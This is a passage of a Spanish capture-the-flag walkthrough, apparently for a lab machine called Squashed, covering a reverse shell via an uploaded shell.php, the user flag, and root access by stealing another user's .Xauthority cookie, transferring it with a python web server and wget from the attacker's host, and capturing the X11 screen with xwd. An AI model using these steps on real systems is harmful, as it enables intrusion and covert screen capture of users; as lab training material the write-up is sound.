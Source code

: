 ```
Y accedere al recurso:
```
http://10.10.11.191/shell.php
```
Y con eso ya obtuvimos una reverse shell, ahora toca hacerla interactiva y ya hemos conseguido la flag de user:

```
alex@squashed:/home/alex$ cat user.txt
cat user.txt
5ada1f0eea8f0909d110e6290f695705
```

## Flag de root via X11

Recordemos que anteriormente en el directorio ```/home/ross``` estaba establecido con el UID 1001, asi que como hicimos con el otro directorio, crearemos un usuario que le asignaremos el UID 1001 para que podamos leer todos los archivos.

Vemos que en el directorio existe el archivo ```.Xauthority``` y ```.xsession```, estos significa que se puede configurar una pantalla X11, .Xauthority se usa para almacenar una ```Magic cookie```, que simplemente es una cookie para poder conectarse a un servidor X11, si nosotros tenemos la cookie de una persona o su archivo ```.Xauthority``` con esa cookie, lo que podriamos hacer es tomar una captura de su pantalla

Primeramente veremos que sesiones activas existen en el usuario ```alex``` (cuando conseguimos la reverse shell):

```
alex@squashed:/home/alex$ w
w
 01:16:44 up 20:09,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Wed05   20:09m  2:21   0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Vemos que existe una sesion activa de ```ross``` usando la pantalla ```:0```.

Entonces lo que tenemos que hacer es:

- Pasarnos el archivo ```.Xauthority``` a Alex
- Desde Alex, configuraremos la variable de entorno ```XAUTHORITY``` con el ```.Xauthority``` de ross
- Tomaremos una captura de pantalla y conseguiremos la flag de root


Para pasarnos el archivo vamos a crear un servidor web con python en el directorio ```/mnt/ross``` (ese es el directorio donde monte ```/home/ross```):

```python3 -m http.server 8080```

Y luego desde el usuario ```Alex``` descargaremos el ```.Xauthority```:

```wget 10.10.14.21:8080/.Xauthority```

Ahora definitemos la variable de entorno con el ```.Xauthority``` de ross:

```XAUTHORITY=/home/alex/.Xauthority```

Ahora tomare una captura de pantalla:

```xwd -root -screen -silent -display :0 > root.xwd```

```